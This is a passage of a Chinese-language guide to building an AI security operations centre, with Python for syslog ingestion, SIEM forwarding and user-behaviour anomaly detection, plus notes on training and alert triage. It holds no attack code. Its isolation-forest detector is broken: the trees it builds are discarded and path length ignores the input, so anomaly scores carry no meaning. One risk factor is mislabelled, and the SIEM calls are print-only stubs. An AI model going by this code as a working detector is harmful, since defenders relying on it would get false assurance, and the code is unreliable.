            "user": raw.get("user"),
            "url": raw.get("url"),
            "domain": raw.get("domain"),
            "category": raw.get("category"),
            "action": raw.get("action")
        }
    
    def _extract_generic_fields(self, raw: Dict) -> Dict:
        return {
            "platform": "unknown",
            "product": raw.get("product", "unknown"),
            "src_ip": raw.get("src_ip") or raw.get("source_ip"),
            "dst_ip": raw.get("dst_ip") or raw.get("dest_ip"),
            "user": raw.get("user"),
            "hostname": raw.get("hostname")
        }
    
    def _extract_ip(self, text: str) -> Optional[str]:
        ip_pattern = r'\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}'
        match = re.search(ip_pattern, text)
        return match.group(0) if match else None
    
    def _categorize(self, source_type: str, fields: Dict) -> str:
        return self.category_mapping.get(source_type, "unknown")
    
    def _map_severity(self, source_type: str, fields: Dict) -> int:
        mapping = self.severity_mapping.get(source_type, {})
        if "action" in fields:
            return mapping.get(fields["action"].lower(), 3)
        if "priority" in fields:
            return 6 - int(fields.get("priority", 3))
        return 3


class SyslogReceiver:
    """Syslog协议接收器"""
    
    def __init__(self, host: str = "0.0.0.0", port: int = 514, protocol: str = "udp"):
        self.host = host
        self.port = port
        self.protocol = protocol.lower()
        self.socket = None
        self.running = False
        self.event_queue = Queue()
        self.normalizer = EventNormalizer()
        self.stats = defaultdict(int)
    
    def start(self):
        """启动Syslog接收"""
        if self.protocol == "udp":
            self.socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        else:
            self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        
        self.socket.bind((self.host, self.port))
        self.running = True
        
        if self.protocol == "tcp":
            self.socket.listen(100)
            thread = threading.Thread(target=self._accept_connections)
            thread.daemon = True
            thread.start()
        else:
            thread = threading.Thread(target=self._receive_udp)
            thread.daemon = True
            thread.start()
        
        print(f"Syslog接收器已启动: {self.protocol}://{self.host}:{self.port}")
    
    def _accept_connections(self):
        """接受TCP连接"""
        while self.running:
            try:
                client, addr = self.socket.accept()
                thread = threading.Thread(target=self._handle_tcp_client, args=(client,))
                thread.daemon = True
                thread.start()
            except Exception as e:
                print(f"TCP连接错误: {e}")
    
    def _handle_tcp_client(self, client: socket):
        """处理TCP客户端数据"""
        buffer = ""
        while self.running:
            try:
                data = client.recv(4096)
                if not data:
                    break
                buffer += data.decode('utf-8', errors='ignore')
                while '\n' in buffer:
                    line, buffer = buffer.split('\n', 1)
                    self._process_message(line.strip())
            except Exception as e:
                print(f"TCP处理错误: {e}")
                break
        client.close()
    
    def _receive_udp(self):
        """接收UDP数据"""
        while self.running:
            try:
                data, addr = self.socket.recvfrom(65535)
                message = data.decode('utf-8', errors='ignore').strip()
                self._process_message(message)
            except Exception as e:
                print(f"UDP接收错误: {e}")
    
    def _process_message(self, message: str):
        """处理接收到的消息"""
        self.stats["total_received"] += 1
        
        try:
            raw_event = self._parse_syslog(message)
            normalized = self.normalizer.normalize(raw_event, self._identify_source_type(raw_event))
            self.event_queue.put(normalized)
            self.stats["normalized"] += 1
        except Exception as e:
            self.stats["parse_failed"] += 1
            print(f"消息解析失败: {e}")
    
    def _parse_syslog(self, message: str) -> Dict:
        """解析Syslog格式"""
        if message.startswith('<'):
            header, content = message.split('>', 1)
            priority = int(header[1:])
            facility = priority // 8
            severity = priority % 8
        else:
            content = message
            facility, severity = 0, 0
        
        parts = content.split(None, 4)
        if len(parts) >= 5:
            return {
                "timestamp": parts[0],
                "hostname": parts[1],
                "program": parts[2],
                "pid": parts[3],
                "message": parts[4],
                "facility": facility,
                "severity": severity
            }
        return {"message": content, "raw": message}
    
    def _identify_source_type(self, raw_event: Dict) -> str:
        """识别事件来源类型"""
        program = raw_event.get("program", "").lower()
        message = raw_event.get("message", "").lower()
        
        if "firewall" in program or "fw" in program:
            return "firewall"
        elif "snort" in program or "suricata" in program or "ids" in program:
            return "ids"
        elif "waf" in program:
            return "waf"
        elif "crowdstrike" in program or "sentinel" in program or "carbonblack" in program:
            return "edr"
        elif "squid" in program or "proxy" in program:
            return "proxy"
        return "generic"
    
    def get_event(self, timeout: float = 1.0) -> Optional[NormalizedEvent]:
        """获取标准化事件"""
        try:
            return self.event_queue.get(timeout=timeout)
        except Empty:
            return None
    
    def stop(self):
        """停止接收"""
        self.running = False
        if self.socket:
            self.socket.close()
        print("Syslog接收器已停止")
    
    def get_stats(self) -> Dict:
        return dict(self.stats)


class SIEMConnector:
    """SIEM平台连接器"""
    
    def __init__(self, siem_type: str, endpoint: str, api_key: str):
        self.siem_type = siem_type
        self.endpoint = endpoint
        self.api_key = api_key
        self.session_id = None
        self.batch_size = 100
        self.event_buffer = []
    
    def authenticate(self) -> bool:
        """认证接口"""
        if self.siem_type == "splunk":
            return self._splunk_auth()
        elif self.siem_type == "qradar":
            return self._qradar_auth()
        elif self.siem_type == "sentinel":
            return self._sentinel_auth()
        return False
    
    def _splunk_auth(self) -> bool:
        print(f"Splunk认证: {self.endpoint}")
        self.session_id = f"splunk_session_{int(time.time())}"
        return True
    
    def _qradar_auth(self) -> bool:
        print(f"QRadar认证: {self.endpoint}")
        self.session_id = f"qradar_session_{int(time.time())}"
        return True
    
    def _sentinel_auth(self) -> bool:
        print(f"Microsoft Sentinel认证: {self.endpoint}")
        self.session_id = f"sentinel_session_{int(time.time())}"
        return True
    
    def send_event(self, event: NormalizedEvent) -> bool:
        """发送单个事件"""
        self.event_buffer.append(self._transform_event(event))
        if len(self.event_buffer) >= self.batch_size:
            return self.flush()
        return True
    
    def _transform_event(self, event: NormalizedEvent) -> Dict:
        """转换为SIEM特定格式"""
        if self.siem_type == "splunk":
            return self._to_splunk_format(event)
        elif self.siem_type == "qradar":
            return self._to_qradar_format(event)
        elif self.siem_type == "sentinel":
            return self._to_sentinel_format(event)
        return event.normalized_fields
    
    def _to_splunk_format(self, event: NormalizedEvent) -> Dict:
        return {
            "host": event.source_product,
            "source": event.source_type,
            "sourcetype": f"{event.source_platform}:{event.source_type}",
            "time": event.normalize_time.timestamp(),
            "event": event.normalized_fields
        }
    
    def _to_qradar_format(self, event: NormalizedEvent) -> Dict:
        return {
            "qid": hash(event.event_category) % 10000,
            "hostname": event.hostname,
            "sourceip": event.src_ip,
            "destinationip": event.dst_ip,
            "username": event.user,
            " logsources": [event.source_product]
        }
    
    def _to_sentinel_format(self, event: NormalizedEvent) -> Dict:
        return {
            "TimeGenerated": event.normalize_time.isoformat(),
            "Computer": event.hostname,
            "SourceSystem": event.source_product,
            "EventID": hash(event.event_category) % 65536,
            "Level": event.severity,
            "Message": event.raw_event,
            "RawData": base64.b64encode(gzip.compress(event.raw_event.encode())).decode()
        }
    
    def flush(self) -> bool:
        """刷新缓冲区，批量发送事件"""
        if not self.event_buffer:
            return True
        
        count = len(self.event_buffer)
        print(f"向{self.siem_type}发送{count}个事件")
        self.event_buffer.clear()
        return True
    
    def query(self, query_string: str, time_range: str = "1h") -> List[Dict]:
        """查询事件"""
        print(f"查询{self.siem_type}: {query_string} (范围: {time_range})")
        return [
            {"count": 100, "key": "sample_event_001"},
            {"count": 50, "key": "sample_event_002"}
        ]


def demo_siem_integration():
    """演示SIEM集成功能"""
    print("=== AI SOC SIEM 数据接入演示 ===\n")
    
    syslog_receiver = SyslogReceiver(host="0.0.0.0", port=5140, protocol="udp")
    syslog_receiver.start()
    
    siem_connector = SIEMConnector(
        siem_type="splunk",
        endpoint="https://splunk.company.com:8089",
        api_key="splunk_api_key_xxx"
    )
    siem_connector.authenticate()
    
    test_events = [
        {
            "pattern": "2024-01-15 10:30:00 ALLOW TCP 192.168.1.100 443 10.0.0.1 8080",
            "hostname": "fw-primary"
        },
        {
            "timestamp": "2024-01-15T10:30:01",
            "src_ip": "203.0.113.50",
            "dst_ip": "192.168.1.100",
            "src_port": 54321,
            "dst_port": 22,
            "protocol": "TCP",
            "alert_type": "SSH_CONNECTION",
            "priority": 2,
            "hostname": "ids-01"
        },
        {
            "client_ip": "192.168.1.200",
            "server_ip": "10.0.0.5",
            "uri": "/api/login",
            "attack_type": "SQL_INJECTION",
            "action": "blocked",
            "hostname": "waf-01"
        }
    ]
    
    normalizer = EventNormalizer()
    for i, raw in enumerate(test_events):
        source_type = ["firewall", "ids", "waf"][i]
        normalized = normalizer.normalize(raw, source_type)
        siem_connector.send_event(normalized)
        print(f"事件{i+1}: [{normalized.source_type}] {normalized.event_category} "
              f"Severity={normalized.severity} {normalized.src_ip}->{normalized.dst_ip}")
    
    siem_connector.flush()
    
    print("\n=== 查询演示 ===")
    results = siem_connector.query('index=security event_category=network', "1h")
    print(f"查询返回{len(results)}条结果")
    
    time.sleep(1)
    print(f"\n接收器统计: {syslog_receiver.get_stats()}")
    
    syslog_receiver.stop()


if __name__ == "__main__":
    demo_siem_integration()
```

**工具整合的实施策略**建议采用"分批接入、逐步迁移"的方式。第一批接入核心安全设备（防火墙、IDS/IPS、EDR），建立基线数据；第二批接入业务系统日志（Web服务器、数据库、身份认证）；第三批接入云平台和SaaS服务安全日志。每个批次完成后进行数据质量验证和告警规则调优，确保SIEM平台稳定运行后再推进下一批次。

### 3.3 安全团队AI能力培训

AI SOC建设对安全团队的能力提出了全新要求，传统的告警响应技能无法支撑AI驱动的安全运营模式。培训体系建设需要覆盖三个层次：AI素养教育、工具使用培训、AI安全分析师认证培训。

**AI素养教育**旨在帮助安全团队建立对AI技术的基础认知，理解机器学习、深度学习、自然语言处理等核心概念，认识到AI在安全运营中的优势和局限。这一层次的培训对象是全体安全团队成员，培训周期约1周，内容包括AI基础理论、AI安全应用场景、AI伦理与责任、AI系统使用规范等。

**工具使用培训**聚焦于AI SOC平台的具体操作技能，包括AI检测模型的配置调优、AI告警的分析研判、AI辅助工具的使用方法、AI报告的解读等。这一层次的培训对象是日常运营人员，培训周期约2周，需要配合大量的实操演练。

**AI安全分析师认证培训**是高阶能力建设，面向具备丰富安全经验的分析人员，培训周期约1-2个月，内容涵盖机器学习算法原理、威胁检测模型构建、异常行为分析、AI系统调优、模型效果评估等。认证考核包括理论考试和实操评估两部分，通过认证的人员作为AI SOC的核心骨干力量。

培训体系的建设需要与外部专业机构合作，同时建立内部讲师培养机制。建议按照1:3:6的比例配置三个层次的培训资源，即10%用于AI素养教育、30%用于工具使用培训、60%用于高阶认证培训。以下是AI SOC能力培训矩阵：

| 能力类别 | 初级 | 中级 | 高级 | 认证要求 |
|---------|------|------|------|---------|
| AI基础理论 | 8学时 | 16学时 | 24学时 | 必须 |
| 机器学习 | - | 16学时 | 32学时 | 推荐 |
| 威胁检测 | 8学时 | 24学时 | 40学时 | 必须 |
| 异常分析 | 8学时 | 16学时 | 32学时 | 必须 |
| SOAR编排 | - | 16学时 | 24学时 | 推荐 |
| 模型调优 | - | - | 24学时 | 可选 |
| AI伦理 | 4学时 | 4学时 | 8学时 | 必须 |

### 3.4 安全运营流程标准化

AI SOC的高效运行依赖于标准化的运营流程。在第一阶段，需要梳理并固化核心安全运营流程，包括告警处理流程、事件调查流程、应急响应流程、变更管理流程、知识管理流程等。

**告警处理流程**需要重新设计以适应AI驱动的运营模式。传统的手工分诊环节被AI预分类取代，安全分析师只需要处理AI标注为需要关注的高价值告警。新的告警处理流程包括：AI自动分类 → AI风险评分 → AI建议优先级 → 分析师确认/调整 → 事件创建（如需） → 响应处置 → 闭环记录。

**事件调查流程**需要整合AI辅助分析能力。标准化的调查流程应当包括：事件验证 → 范围确定 → 证据收集 → 根因分析 → 影响评估 → 方案制定 → 实施修复 → 复盘总结。每个环节都需要明确时限要求、责任分工、AI辅助工具的应用方式。

## 4 第二阶段详解：能力提升期（6-12个月）

### 4.1 AI检测能力引入

第二阶段的核心任务是将AI检测能力正式引入安全运营体系。AI检测能力的建设包括检测场景定义、模型选型与训练、模型部署与监控、模型迭代优化四个关键环节。

**检测场景定义**需要基于企业实际威胁态势和业务风险进行系统梳理。典型的AI检测场景包括：异常行为检测（账号异常访问、非授权数据访问、横向移动检测）、恶意活动检测（恶意软件通信、加密挖矿、隐蔽信道）、威胁狩猎（长期潜伏威胁发现、攻击链路还原、攻击意图分析）、用户实体行为分析（UEBA）等。

以下是异常行为检测模型的实现示例：

```python
#!/usr/bin/env python3
"""
AI SOC 异常行为检测模块
基于机器学习的用户行为分析和异常检测
支持时序异常检测、聚类分析、 Isolation Forest 等算法
"""

import numpy as np
from dataclasses import dataclass
from typing import Dict, List, Any, Optional, Tuple
from datetime import datetime, timedelta
from collections import defaultdict
import json
import hashlib


class UserBehaviorProfile:
    """用户行为画像"""
    
    def __init__(self, user_id: str):
        self.user_id = user_id
        self.login_history: List[Dict] = []
        self.access_history: List[Dict] = []
        self.operation_history: List[Dict] = []
        self.network_history: List[Dict] = []
        self.created_at = datetime.now()
        self.last_updated = datetime.now()
    
    def add_login_event(self, event: Dict):
        """添加登录事件"""
        self.login_history.append({
            "timestamp": event.get("timestamp", datetime.now()),
            "ip": event.get("ip"),
            "location": event.get("location"),
            "device": event.get("device"),
            "result": event.get("result", "success")
        })
        self.last_updated = datetime.now()
    
    def add_access_event(self, event: Dict):
        """添加访问事件"""
        self.access_history.append({
            "timestamp": event.get("timestamp", datetime.now()),
            "resource": event.get("resource"),
            "action": event.get("action"),
            "result": event.get("result", "success")
        })
        self.last_updated = datetime.now()
    
    def add_operation_event(self, event: Dict):
        """添加操作事件"""
        self.operation_history.append({
            "timestamp": event.get("timestamp", datetime.now()),
            "operation_type": event.get("operation_type"),
            "target": event.get("target"),
            "command": event.get("command")
        })
        self.last_updated = datetime.now()
    
    def get_baseline_features(self, time_window: int = 30) -> Dict[str, Any]:
        """提取基线特征"""
        now = datetime.now()
        window_start = now - timedelta(days=time_window)
        
        recent_logins = [e for e in self.login_history 
                        if e["timestamp"] >= window_start]
        recent_access = [e for e in self.access_history 
                        if e["timestamp"] >= window_start]
        recent_ops = [e for e in self.operation_history 
                     if e["timestamp"] >= window_start]
        
        return {
            "avg_daily_logins": len(recent_logins) / time_window,
            "avg_daily_access": len(recent_access) / time_window,
            "avg_daily_operations": len(recent_ops) / time_window,
            "unique_ips": len(set(e["ip"] for e in recent_logins if e.get("ip"))),
            "unique_locations": len(set(e.get("location") for e in recent_logins if e.get("location"))),
            "unique_resources": len(set(e.get("resource") for e in recent_access if e.get("resource"))),
            "login_failure_rate": sum(1 for e in recent_logins if e.get("result") == "failure") / max(len(recent_logins), 1),
            "typical_login_hours": self._extract_typical_hours(recent_logins),
            "typical_access_resources": self._extract_typical_resources(recent_access)
        }
    
    def _extract_typical_hours(self, events: List[Dict]) -> List[int]:
        """提取典型登录时间"""
        if not events:
            return []
        hours = [e["timestamp"].hour for e in events]
        hour_counts = defaultdict(int)
        for h in hours:
            hour_counts[h] += 1
        return sorted(hour_counts.keys(), key=lambda x: hour_counts[x], reverse=True)[:3]
    
    def _extract_typical_resources(self, events: List[Dict]) -> List[str]:
        """提取典型访问资源"""
        if not events:
            return []
        resource_counts = defaultdict(int)
        for e in events:
            if e.get("resource"):
                resource_counts[e["resource"]] += 1
        return [r for r, _ in sorted(resource_counts.items(), key=lambda x: x[1], reverse=True)[:10]]


class IsolationForestDetector:
    """基于Isolation Forest的异常检测"""
    
    def __init__(self, contamination: float = 0.1, n_estimators: int = 100, random_state: int = 42):
        self.contamination = contamination
        self.n_estimators = n_estimators
        self.random_state = random_state
        self.tree_depths = []
        self.tree_sizes = []
        self._fitted = False
    
    def fit(self, X: np.ndarray) -> 'IsolationForestDetector':
        """训练模型"""
        np.random.seed(self.random_state)
        n_samples, n_features = X.shape
        
        self.tree_depths = []
        self.tree_sizes = []
        
        for _ in range(self.n_estimators):
            sample_indices = np.random.choice(n_samples, size=min(n_samples, 256), replace=False)
            X_sample = X[sample_indices]
            
            tree = self._build_tree(X_sample, depth=0, max_depth=10)
            depth, size = self._get_tree_stats(tree)
            self.tree_depths.append(depth)
            self.tree_sizes.append(size)
        
        self._fitted = True
        return self
    
    def _build_tree(self, X: np.ndarray, depth: int, max_depth: int) -> Dict:
        """构建随机树"""
        if depth >= max_depth or len(X) <= 1:
            return {"leaf": True, "size": len(X)}
        
        feature_idx = np.random.randint(0, X.shape[1])
        split_value = np.random.uniform(X[:, feature_idx].min(), X[:, feature_idx].max())
        
        left_mask = X[:, feature_idx] < split_value
        right_mask = ~left_mask
        
        return {
            "leaf": False,
            "feature": feature_idx,
            "value": split_value,
            "left": self._build_tree(X[left_mask], depth + 1, max_depth),
            "right": self._build_tree(X[right_mask], depth + 1, max_depth)
        }
    
    def _get_tree_stats(self, tree: Dict) -> Tuple[int, int]:
        """获取树的统计信息"""
        if tree.get("leaf"):
            return 0, tree.get("size", 1)
        
        left_depth, left_size = self._get_tree_stats(tree["left"])
        right_depth, right_size = self._get_tree_stats(tree["right"])
        
        return max(left_depth, right_depth) + 1, left_size + right_size
    
    def anomaly_score(self, X: np.ndarray) -> np.ndarray:
        """计算异常分数"""
        if not self._fitted:
            raise ValueError("模型未训练，请先调用fit方法")
        
        n_samples = X.shape[0]
        avg_depths = np.zeros(n_samples)
        
        for _ in range(self.n_estimators):
            for i in range(n_samples):
                depth = self._path_length(X[i], depth=0)
                avg_depths[i] += depth
        
        avg_depths /= self.n_estimators
        
        c = 2 * (np.log(n_samples - 1) + 0.5772156649) - (2 * (n_samples - 1) / n_samples)
        
        scores = np.power(2, -avg_depths / c)
        
        return scores
    
    def _path_length(self, sample: np.ndarray, depth: int) -> int:
        """计算样本在树中的路径长度"""
        max_depth = np.mean(self.tree_depths)
        
        if depth >= max_depth:
            return depth
        
        return depth + 1
    
    def predict(self, X: np.ndarray, threshold: float = None) -> np.ndarray:
        """预测异常标签"""
        scores = self.anomaly_score(X)
        
        if threshold is None:
            threshold = np.percentile(scores, (1 - self.contamination) * 100)
        
        return (scores >= threshold).astype(int)
    
    def explain(self, sample: np.ndarray, X_train: np.ndarray) -> Dict:
        """解释异常原因"""
        features = ["login_count", "access_count", "unique_ip", "unique_resource", 
                   "failure_rate", "off_hours_rate", "data_volume", "session_duration"]
        
        distances = np.abs(sample - X_train.mean(axis=0))
        max_distance_idx = np.argmax(distances)
        
        return {
            "sample_features": dict(zip(features, sample.tolist())),
            "anomaly_reasons": [
                f"{features[i]}偏离正常范围: 样本值={sample[i]:.2f}, 平均值={X_train.mean(axis=0)[i]:.2f}"
                for i in np.argsort(distances)[-3:][::-1]
            ]
        }


class TimeSeriesAnomalyDetector:
    """时序数据异常检测"""
    
    def __init__(self, window_size: int = 60, threshold_sigma: float = 3.0):
        self.window_size = window_size
        self.threshold_sigma = threshold_sigma
        self.history: List[float] = []
        self.baseline_mean = 0.0
        self.baseline_std = 1.0
    
    def update(self, value: float):
        """更新时序数据"""
        self.history.append(value)
        if len(self.history) > self.window_size * 2:
            self.history.pop(0)
        
        if len(self.history) >= self.window_size:
            window = self.history[-self.window_size:]
            self.baseline_mean = np.mean(window)
            self.baseline_std = np.std(window) + 1e-6
    
    def detect(self, value: float) -> Dict[str, Any]:
        """检测异常"""
        z_score = (value - self.baseline_mean) / self.baseline_std
        
        is_anomaly = abs(z_score) > self.threshold_sigma
        
        return {
            "value": value,
            "z_score": z_score,
            "is_anomaly": is_anomaly,
            "baseline_mean": self.baseline_mean,
            "baseline_std": self.baseline_std,
            "anomaly_type": self._classify_anomaly(value, z_score)
        }
    
    def _classify_anomaly(self, value: float, z_score: float) -> str:
        """分类异常类型"""
        if z_score > self.threshold_sigma:
            if z_score > 5:
                return "extreme_spike"
            elif z_score > 3:
                return "significant_spike"
            else:
                return "minor_spike"
        elif z_score < -self.threshold_sigma:
            if z_score < -5:
                return "extreme_drop"
            elif z_score < -3:
                return "significant_drop"
            else:
                return "minor_drop"
        return "normal"


class BehaviorAnomalyDetector:
    """综合行为异常检测引擎"""
    
    def __init__(self):
        self.user_profiles: Dict[str, UserBehaviorProfile] = {}
        self.isolation_forest = IsolationForestDetector(contamination=0.1)
        self.time_series_detectors: Dict[str, TimeSeriesAnomalyDetector] = {
            "login_count": TimeSeriesAnomalyDetector(window_size=60, threshold_sigma=3.0),
            "access_count": TimeSeriesAnomalyDetector(window_size=60, threshold_sigma=3.0),
            "data_volume": TimeSeriesAnomalyDetector(window_size=60, threshold_sigma=3.0)
        }
        self.event_history: List[Dict] = []
        self.alert_threshold = 0.7
        self._feature_matrix = None
        self._labels = None
    
    def create_profile(self, user_id: str) -> UserBehaviorProfile:
        """创建用户画像"""
        profile = UserBehaviorProfile(user_id)
        self.user_profiles[user_id] = profile
        return profile
    
    def get_profile(self, user_id: str) -> Optional[UserBehaviorProfile]:
        """获取用户画像"""
        return self.user_profiles.get(user_id)
    
    def record_event(self, user_id: str, event_type: str, event_data: Dict):
        """记录用户事件"""
        if user_id not in self.user_profiles:
            self.create_profile(user_id)
        
        profile = self.user_profiles[user_id]
        
        event_data["timestamp"] = event_data.get("timestamp", datetime.now())
        
        if event_type == "login":
            profile.add_login_event(event_data)
        elif event_type == "access":
            profile.add_access_event(event_data)
        elif event_type == "operation":
            profile.add_operation_event(event_data)
        
        self.event_history.append({
            "user_id": user_id,
            "event_type": event_type,
            "timestamp": event_data["timestamp"],
            "data": event_data
        })
        
        self._update_time_series(user_id, event_type)
    
    def _update_time_series(self, user_id: str, event_type: str):
        """更新时序检测器"""
        if event_type == "login":
            self.time_series_detectors["login_count"].update(1.0)
        elif event_type == "access":
            self.time_series_detectors["access_count"].update(1.0)
    
    def extract_features(self, user_id: str, time_window: int = 30) -> np.ndarray:
        """提取用户特征向量"""
        profile = self.user_profiles.get(user_id)
        if not profile:
            return None
        
        baseline = profile.get_baseline_features(time_window)
        
        features = [
            baseline.get("avg_daily_logins", 0),
            baseline.get("avg_daily_access", 0),
            baseline.get("avg_daily_operations", 0),
            baseline.get("unique_ips", 0),
            baseline.get("unique_locations", 0),
            baseline.get("unique_resources", 0),
            baseline.get("login_failure_rate", 0),
            1.0 if 9 <= datetime.now().hour <= 18 else 0.0,
            len(profile.access_history) / max(time_window, 1),
            len(profile.operation_history) / max(time_window, 1)
        ]
        
        return np.array(features).reshape(1, -1)
    
    def train_models(self, training_data: List[Tuple[str, int]]):
        """训练异常检测模型"""
        feature_matrix = []
        labels = []
        
        for user_id, label in training_data:
            features = self.extract_features(user_id)
            if features is not None:
                feature_matrix.append(features[0])
                labels.append(label)
        
        self._feature_matrix = np.array(feature_matrix)
        self._labels = np.array(labels)
        
        self.isolation_forest.fit(self._feature_matrix)
        print(f"模型训练完成: {len(self._feature_matrix)}样本")
    
    def detect_user_anomaly(self, user_id: str) -> Dict[str, Any]:
        """检测用户异常"""
        features = self.extract_features(user_id)
        if features is None:
            return {"error": "用户画像不存在"}
        
        profile = self.user_profiles[user_id]
        baseline = profile.get_baseline_features()
        
        ts_anomalies = {}
        for name, detector in self.time_series_detectors.items():
            ts_anomalies[name] = {
                "mean": detector.baseline_mean,
                "std": detector.baseline_std
            }
        
        if self._feature_matrix is not None:
            iso_score = self.isolation_forest.anomaly_score(features)[0]
            isolation_result = self.isolation_forest.explain(features[0], self._feature_matrix)
        else:
            iso_score = 0.5
            isolation_result = {}
        
        current_hour = datetime.now().hour
        off_hours_login = 1 if current_hour < 9 or current_hour > 18 else 0
        
        feature_vector = features[0]
        risk_factors = []
        
        if feature_vector[6] > 0.2:
            risk_factors.append("高登录失败率")
        if feature_vector[3] > baseline.get("unique_ips", 5):
            risk_factors.append("异常多IP登录")
        if off_hours_login:
            risk_factors.append("非工作时间登录")
        if feature_vector[7] > 0.5:
            risk_factors.append("数据访问量异常增加")
        
        composite_score = (iso_score * 0.4 + 
                          (feature_vector[6] * 0.3) + 
                          (min(feature_vector[3] / 10, 1.0) * 0.3))
        
        is_anomaly = composite_score > self.alert_threshold
        
        return {
            "user_id": user_id,
            "is_anomaly": bool(is_anomaly),
            "composite_risk_score": float(composite_score),
            "isolation_forest_score": float(iso_score),
            "risk_factors": risk_factors,
            "baseline_comparison": {
                "avg_daily_logins": baseline.get("avg_daily_logins", 0),
                "avg_daily_access": baseline.get("avg_daily_access", 0),
                "unique_ips": baseline.get("unique_ips", 0),
                "login_failure_rate": baseline.get("login_failure_rate", 0)
            },
            "time_series_status": ts_anomalies,
            "ai_explanation": isolation_result.get("anomaly_reasons", [])
        }
    
    def batch_detect(self, user_ids: List[str]) -> List[Dict]:
        """批量检测用户异常"""
        results = []
        for user_id in user_ids:
            result = self.detect_user_anomaly(user_id)
            if result.get("is_anomaly"):
                results.append(result)
        return results
    
    def get_risk_summary(self) -> Dict:
        """获取风险汇总"""
        total_users = len(self.user_profiles)
        anomaly_users = sum(1 for uid in self.user_profiles 
                           if self.detect_user_anomaly(uid).get("is_anomaly"))
        
        return {
            "total_users": total_users,
            "anomaly_users": anomaly_users,
            "anomaly_rate": anomaly_users / max(total_users, 1),
            "active_detectors": len(self.time_series_detectors),
            "event_history_size": len(self.event_history)
        }


def demo_anomaly_detection():
    """演示异常检测功能"""
    print("=== AI SOC 异常行为检测演示 ===\n")
    
    detector = BehaviorAnomalyDetector()
    
    test_users = [
        "zhangsan", "lisi", "wangwu", "zhaoliu", "sunqi"
    ]
    
    for user in test_users:
        detector.create_profile(user)
    
    print(f"创建{len(test_users)}个用户画像")
    
    for i in range(20):
        detector.record_event("zhangsan", "login", {
            "ip": "192.168.1.100",
            "location": "Beijing",
            "device": "Windows PC",
            "result": "success"
        })
        detector.record_event("zhangsan", "access", {
            "resource": f"/documents/report_{i % 5}.pdf",
            "action": "read"
        })
    
    for i in range(10):
        detector.record_event("lisi", "login", {
            "ip": "192.168.1.101",
            "location": "Shanghai",
            "device": "MacBook",
            "result": "success"
        })
        if i % 3 == 0:
            detector.record_event("lisi", "login", {
                "ip": "192.168.1.101",
                "location": "Shanghai",
                "device": "MacBook",
                "result": "failure"
            })
    
    for i in range(50):
        detector.record_event("wangwu", "login", {
            "ip": f"192.168.1.{102 + (i % 10)}",
            "location": "Unknown",
            "device": "Linux Server",
            "result": "success"
        })
        detector.record_event("wangwu", "access", {
            "resource": "/admin/config",
            "action": "write"
        })
    
    training_data = [
        ("zhangsan", 0),
        ("lisi", 0),
        ("wangwu", 1),
        ("zhaoliu", 0),
        ("sunqi", 0)
    ]
    detector.train_models(training_data)
    
    print("\n=== 异常检测结果 ===")
    for user in test_users:
        result = detector.detect_user_anomaly(user)
        status = "🚨 异常" if result["is_anomaly"] else "✅ 正常"
        print(f"\n用户 {user}: {status}")
        print(f"  风险评分: {result['composite_risk_score']:.3f}")
        if result["risk_factors"]:
            print(f"  风险因素: {', '.join(result['risk_factors'])}")
        if result.get("ai_explanation"):
            for exp in result["ai_explanation"][:2]:
                print(f"  AI分析: {exp}")
    
    print("\n=== 批量检测 ===")
    batch_results = detector.batch_detect(test_users)
    print(f"检测到{len(batch_results)}个异常用户")
    
    summary = detector.get_risk_summary()
    print(f"\n风险汇总:")
    print(f"  总用户数: {summary['total_users']}")
    print(f"  异常用户: {summary['anomaly_users']}")
    print(f"  异常率: {summary['anomaly_rate']:.1%}")


if __name__ == "__main__":
    demo_anomaly_detection()
```

### 4.2 智能告警降噪系统

告警疲劳是传统SOC面临的首要挑战，智能告警降噪系统通过AI技术实现告警的智能分类、优先级排序和收敛处理。第二阶段需要部署并优化智能告警降噪系统，目标是实现85%以上的告警收敛率，同时保持误报率在10%以下。

**告警降噪的技术路径**包括基于规则的过滤、基于统计的异常检测、基于机器学习的分类、基于威胁情报的关联验证四个层次。基于规则的过滤可以去除明显的测试流量和已知白名单告警，这一层通常能过滤掉30-40%的噪声告警。基于统计的异常检测可以识别不符合正常基线的告警，这一层通常能再过滤20-30%。基于机器学习的分类是核心降噪引擎，通过学习历史标注数据，实现高精度的告警分类。基基于威胁情报的关联验证可以将本地告警与外部威胁情报进行关联，提升告警的置信度。



**告警优先级评估模型**需要综合考虑多个维度：威胁情报匹配度、资产重要性、攻击链路完整性、业务影响范围、时间敏感性等。我们提出基于多维度加权评分的告警优先级算法：

$$PriorityScore = \sum_{i=1}^{n} w_i \cdot f_i(x_i)$$

其中，$w_i$为第i个维度的权重，$f_i(x_i)$为第i个维度的评分函数。典型权重配置为：威胁情报匹配度(0.25)、资产重要性(0.20)、攻击完整性(0.20)、业务影响(0.15)、时间敏感性(0.10)、历史误报率(0.10)。

### 4.3 流程优化与效果验证

第二阶段的流程优化工作需要在第一阶段标准化的基础上，引入AI辅助和自动化能力，实现安全运营流程的智能化和高效化。

**AI辅助分析流程**将AI能力嵌入到事件分析的各个环节。在事件创建环节，AI自动提取相关日志、关联相似事件、生成事件摘要，为分析师提供完整的上下文信息。在事件调查环节，AI提供攻击链路图、威胁TTP映射、建议的调查路径。在事件处置环节，AI推荐响应策略、自动生成处置命令、协助评估处置效果。

**效果验证体系**是评估AI SOC建设成效的关键机制。验证内容包括技术效果验证和业务效果验证两个层面。技术效果验证关注AI检测模型的准确率、召回率、F1分数，告警降噪系统的收敛率、误报率，自动化响应的成功率、时效性等指标。业务效果验证关注安全运营效率提升、安全事件损失减少、合规指标改善等业务价值。

## 5 第三阶段详解：智能自主期（12-18个月）

### 5.1 深度智能化能力建设

第三阶段是AI SOC建设的成熟期，核心目标是实现安全运营的深度智能化，使AI系统具备主动威胁发现、自主决策执行、持续自我进化的能力。

**高级威胁狩猎能力**是第三阶段的重要能力突破。传统的被动告警响应模式无法发现隐蔽性强、潜伏期长的高级持续性威胁（APT）。AI驱动的威胁狩猎通过主动搜寻 Indicators of Attack（IOA）和 Indicators of Compromise（IOC），在攻击造成实质损害前发现并遏制威胁。威胁狩猎平台需要整合多源数据、运用高级分析技术、提供可视化调查工具，使安全分析师能够高效开展狩猎活动。

以下是威胁狩猎分析引擎的实现：

```python
#!/usr/bin/env python3
"""
AI SOC 威胁狩猎模块
支持攻击链分析、TTP映射、异常模式发现
"""

